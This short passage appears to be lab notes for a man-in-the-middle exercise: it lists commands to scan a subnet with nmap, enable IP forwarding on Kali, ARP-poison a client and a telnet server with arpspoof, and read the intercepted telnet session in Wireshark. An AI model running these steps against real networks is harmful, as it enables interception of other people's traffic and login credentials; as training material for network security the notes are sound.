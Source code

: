 we need to identify where is the server (telnet 23) and client and gateway
 - nmap IP/24 

Configure the Kali instance to forward IP packets:
- echo 1 > /proc/sys/net/ipv4/ip_forward

ARP poisoning attack 
- arpspoof -i eth1 -t Client_IP -r telenet_server_IP

open wireshark and filter on telnet --> follow tcp stream 
